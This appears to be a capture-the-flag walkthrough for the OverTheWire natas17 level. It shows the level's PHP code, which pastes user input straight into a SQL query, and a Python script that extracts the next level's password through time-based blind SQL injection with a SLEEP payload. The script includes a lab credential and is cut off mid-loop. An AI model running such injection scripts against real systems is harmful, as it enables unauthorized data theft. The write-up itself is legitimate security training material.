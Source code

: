 >     $link = mysqli_connect('localhost', 'natas17', '<censored>');
>     mysqli_select_db($link, 'natas17');
> 
>     $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
>     if(array_key_exists("debug", $_GET)) {
>         echo "Executing query: $query<br>";
>     }
> 
>     $res = mysqli_query($link, $query);
>     if($res) {
>       if(mysqli_num_rows($res) > 0) {
>         //echo "This user exists.<br>";
>       } else {
>         //echo "This user doesn't exist.<br>";
>       }
>     } else {
>         //echo "Error in query.<br>";
>     }
> 
>     mysqli_close($link);
> } else {
> ?>
> 
> <form action="index.php" method="POST">
> Username: <input name="username"><br>
> <input type="submit" value="Check existence" />
> </form>
> <?php } ?>
> ```

This level's source code is the same as natas16, except for the output echos which are commented. This makes the old solution not work anymore, since we can't check if the user exists or not.
Let's keep in mind the script we used in natas16. A way to solve this is to delay the query if we find the correct character, so that we can check if the query took longer than usual. To do this, we can use the `SLEEP` function in MySQL, which delays the execution of the query for a specified number of seconds:

```python
import requests
import string
from requests.auth import HTTPBasicAuth
import time

URL = "http://natas17.natas.labs.overthewire.org/index.php?debug=1"
auth=HTTPBasicAuth('natas17', 'EqjHJbo7LFNb8vwhHb9s75hokh5TF0OC')
headers = {'Content-Type': 'application/x-www-form-urlencoded'}
known = ""
found = True
charSet = string.digits + string.ascii_letters

for i in range(1, 65):
    if not found:
        break
    for c in charSet:
        payload = f'username=natas18" AND BINARY SUBSTRING(password,{i},1) = "{c}" AND sleep(5) -- '
        start = time.time()
        r = requests.post(url=URL, headers=headers, auth=auth, data=payload)
        elapsed = time.time() - start
        if elapsed > 4:
            found = True
            known += c
            print(known)
            break
        else:
```